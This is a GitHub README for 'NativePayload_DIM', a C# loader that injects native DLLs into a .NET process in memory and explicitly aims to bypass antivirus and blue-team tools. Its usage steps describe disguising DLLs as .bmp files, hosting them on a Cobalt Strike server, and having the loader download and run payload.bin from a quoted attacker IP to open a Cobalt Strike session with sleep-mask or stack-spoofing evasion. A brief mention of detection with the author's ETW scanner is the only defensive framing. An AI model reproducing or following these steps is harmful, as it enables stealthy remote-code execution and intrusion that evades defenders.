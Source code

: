 # NativePayload_DIM

NativePayload_DIM Dynamic native dll Injection in Memory , Injecting Native DLL bytes to local Process

Note: `NativePayload_DIM is simple csharp code to loading Native Dll [unmanaged dll] into Managed Processes [.NET Processes] without read dll from disk [in-memory only]` , this will help you to bypass AVs and Blue team tools etc also you can convert this Csharp code to Managed Dll then you can inject this code to any process you want [Native Processes or Managed Processes] and ...

in this code i used two old C++ Codes "ShellcodeFluctuation" & "CallStackSpoofer" as Native DLL to inject them into local Managed Process in this case "NativePayload_DIM" and you can see results was good in these pictures.

Note: `C++ Codes for "ShellcodeFluctuation" & "CallStackSpoofer" was changed by me and output of projects changed to dll (so you should use these C++ codes in this repo), Function name "run" added into source codes also these codes will download cobaltstrike "payload.bin" via web traffic so we have two change in source codes for these c++ projects` , you can find original source code in below link

C++ Original Source codes:

ShellcodeFluctuation => https://github.com/mgeeky/ShellcodeFluctuation

ThreadStackSpoofer => https://github.com/mgeeky/ThreadStackSpoofer

Note: `as Blue teamer you can see how this code was detected by my ETW Memory Scanner which called "VirtualMemAllocMon.exe".`

ETW Memory Scanner => https://github.com/DamonMohammadbagher/ETWProcessMon2/tree/main/VirtualMemAllocMon

#### NativePayload_DIM background step-by-step

      Step1: Native dll bytes from web downloaded via bmp extension loaded into local process in-memory [ShellcodeFluctuation.dll or ThreadStackSpoofer.dll renamed to bmp extension]
      Step2: Native dll after loading in local process [Managed process] will call Funcation name "run" and this function will get payload.bin from web
      Step3: in-memory that payload.bin will run also [cobaltstrike session established]
      Step4: in-memory ShellcodeFluctuation.dll will encode payloads [Sleep-mask + delay] or in-memory with ThreadStackSpoofer.dll you will have stack spoofing with delay 


----------------------
#### Usage step-by-step:

      Step1: Compile C++ Codes to make Dll files [output should be dll type]
      Step2: rename "callstackspoofer.dll or ShellcodeFluctuation.dll" to NativeCode_SleepMask.bmp
      Step3: upload bmp file to kali linux [cobaltstrike host]
      Step4: line 595 of main.cpp file in ShellcodeFluctuation-maste project is shellcode = downloadContent(L"http://192.168.56.104:8000/payload.bin") , you should change this ip address to cobaltstrike host ip address THEN compile ShellcodeFluctuation C++ code.
      Step4-1: line 304 of main.cpp file in ThreadStackSpoofer-maste project is shellcode = downloadContent(L"http://192.168.56.104:8000/payload.bin") , you should change this ip address to cobaltstrike host ip address THEN compile ThreadStackSpoofer C++ code.
      Step5: line 38 of program.cs file in NativePayload_DIM project is "http://192.168.56.104:8000/NativeCode_SleepMask.bmp" , you should change this ip address to cobaltstrike host ip address THEN compile NativePayload_DIM C# code.
      Step6: make raw payload.bin in cobaltstrike v4.0 host and both files in step3 and step5 should be in same folder & share them via webserver [you can use "Python2.7 -m SimpleHTTPServer" in kali linux]
      Step7: Run NativePayload_DIM.exe 

### NativePayload_DIM + loading Native Dll "ShellcodeFluctuation.dll" into local process
   ![](https://github.com/DamonMohammadbagher/NativePayload_DIM/blob/main/Pics/ShellcodeFluctuation1.png)
   
### NativePayload_DIM & Detection via ETW Memory-scanner for ShellcodeFluctuation method in-memory before encoding...
   ![](https://github.com/DamonMohammadbagher/NativePayload_DIM/blob/main/Pics/ShellcodeFluctuation2.png)
   
-------------------
### NativePayload_DIM + loading Native Dll "ThreadStackSpoofer.dll" into local process
   ![](https://github.com/DamonMohammadbagher/NativePayload_DIM/blob/main/Pics/callstackspoofer.png)
   
   
<p><a href="https://hits.seeyoufarm.com"><img src="https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https://github.com/DamonMohammadbagher/NativePayload_DIM"/></a></p>
